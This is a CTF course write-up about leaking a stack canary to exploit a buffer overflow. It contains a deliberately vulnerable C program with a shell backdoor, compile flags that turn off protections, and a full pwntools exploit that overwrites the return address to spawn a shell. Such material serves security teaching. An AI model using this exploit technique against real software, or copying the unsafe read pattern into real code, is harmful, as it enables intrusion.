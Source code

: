 ```yaml
---
title: Simple Buffer Overflow - 0x05(Leak Canary)
tags: [CTF, PWN, eductf]

category: "Security/Course/NTU CS/PWN"
---
```


# Simple Buffer Overflow - 0x05(Leak Canary)
<!-- more -->
###### tags: `CTF` `PWN` `eductf`

## Canary Background
![](https://imgur.com/onxC8Aq.png)

## Original Code
```clike!
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

void backdoor()
{
    system("/bin/sh");
}

int main()
{
    setvbuf(stdin, 0, _IONBF, 0);
    setvbuf(stdout, 0, _IONBF, 0);

    char name[0x10];
    char phone[0x10];

    printf("What's your name: ");
    read(0, name, 0x100);
    printf("Hello, %s !", name);

    printf("What's your phone number: ");
    read(0, phone, 0x100);

    return 0;
}
```

* Note that, if you establish the code yourself, you must turn off the protection by the command below and use `checksec` to observe the protection
    ```bash!
    gcc -o bof2_leak_canary bof2_leak_canary.c -zexecstack -no-pie -z norelro
    ```
    ![](https://imgur.com/u5iueTC.png)
    
## Exploit
* First, we can use `objdump -d -M Intel {filename}` to check the address of backdoor → `0x4011b6`
![](https://imgur.com/d30qIvL.png)
* However, we observe the backdoor function, it just call `system` instead of `execsv`. So, that you may encounter some error because of non-alignment. The solution is skip the `push %rbp` instruction and just jump to <font color="FF0000">`0x4011bb`</font>
    * The detailed description can refer to [lecture video](https://youtu.be/ktoVQB99Gj4?t=3058)
* Then we can construct a part of the payload below:
    ```python!
    from pwn import *

    context.arch = 'amd64'

    r = process('./bof2_leak_canary')
    raw_input()
    no_push_rbp_backdoor_addr = 0x4011bb
    ```
* Then we have to overlap `name` variable and `phone` variable with length `0x20`. In addition, the compiler will align 8 bytes, we should overlap it as well. Moreover, the last byte of `canary` is always `0x00`, then if we'd like to print out `canary` value, we should overlap it as well.(In pwntools, `recvuntil` function default consider `0x00` is a new line)
    ```python!
    r.sendafter("What's your name: ", b'a' * 0x29) #0x20 → name + phone / 0x08 for compiler alinment / 0x01 for canary last byte
    r.recvuntil('a'*0x29)
    canary = u64(b'\x00' + r.recv(7))
    print("canary: ", hex(canary))
    ```

* Final step, we do what we done before to overlap padding + `phone` variable`(0x18)` + original canary`(0x08)` + original `$rbp``(0x08)` + overlap `$rip` to backdoor.
    ```python!
    r.sendafter("What's your phone number: ", b'a' * 0x18 + p64(canary) + p64(0xdeadbeef) + p64(no_push_rbp_backdoor_addr))
    ```

* The whole payload is shown as below:
    ```python!
    from pwn import *

    context.arch = 'amd64'

    r = process('./bof2_leak_canary')
    raw_input()
    no_push_rbp_backdoor_addr = 0x4011bb
    r.sendafter("What's your name: ", b'a' * 0x29) #0x20 → name + phone / 0x08 for compiler alinment / 0x01 for canary last byte
    r.recvuntil('a'*0x29)
    canary = u64(b'\x00' + r.recv(7))
    print("canary: ", hex(canary))
    r.sendafter("What's your phone number: ", b'a' * 0x18 + p64(canary) + p64(0xdeadbeef) + p64(no_push_rbp_backdoor_addr))
    ```
* Then we got shell
![](https://imgur.com/9EGkDS0.png)

## Analysis
* About how to print canary:
Use `gdb` and execute to the first `print`, you can see that the stack structure.
![](https://imgur.com/usVpBMk.png)
![](https://imgur.com/6UDd5Po.png)
And we can print canary value from payload program → <font color="FF0000">`0xdf38469d4e106500`</font>
![](https://imgur.com/4tpr5M7.png)
    * Note that we can get `tls` address and `+0x28` to compare with canary value
    ![](https://imgur.com/gOMyuAq.png)


## Reference
[Lecture Vid. - Pwn week1](https://youtu.be/ktoVQB99Gj4)